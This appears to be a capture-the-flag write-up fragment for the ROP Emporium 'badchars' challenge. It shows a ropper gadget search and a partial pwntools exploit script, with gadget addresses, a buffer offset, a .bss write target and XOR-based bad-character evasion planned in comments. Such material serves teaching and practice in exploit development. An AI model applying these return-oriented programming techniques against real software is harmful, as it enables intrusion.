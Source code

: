 ```bash


┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/barchar]
└─$ ropper -f badchars --search "xor [r15], r14b; ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: xor [r15], r14b; ret

[INFO] File: badchars
0x0000000000400628: xor byte ptr [r15], r14b; ret;
```

```python
from pwn import *

# Load the ELF binary and set the architecture context
elf = context.binary = ELF("badchars")
rop = ROP(elf)

# Start the process
p = process(elf.path)

# Offset to control RIP (determined using cyclic pattern)
offset = 40

# ROP gadgets manually found from binary or ROPgadget
# Gadget: pop r12; pop r13; ret;
# We'll use this to set up memory write (r12 = value, r13 = address)
pop_r12_r15 = p64(0x40069c)

# Gadget: mov QWORD PTR [r13], r12; ret;
# Writes the content of r12 into the memory location pointed by r13
mov = p64(0x400634)

# Gadget: xor BYTE PTR [r15], r14b; ret;
# Will be used to fix badchars in memory after writing
xor = p64(0x400628)

# Memory address in .bss where we’ll write our string
bss_addr = 0x601038

# String we want to write to memory for print_file()
data2write = 'flag.txt'

# Bad characters we want to avoid in our payload
badchars = ['x', 'g', 'a', '.']

# Start building the payload
payload = b'A' * offset  # Fills up to RIP

# At this point, you need to:
# 1. XOR-encode 'flag.txt' to avoid badchars
# 2. Write the encoded string to bss_addr
# 3. XOR-decode bad bytes using the xor gadget
# 4. Call print_file(bss_addr)

# Send the payload and interact with the program
p.recvuntil(b'> ')
p.sendline(payload)
p.interactive()
```
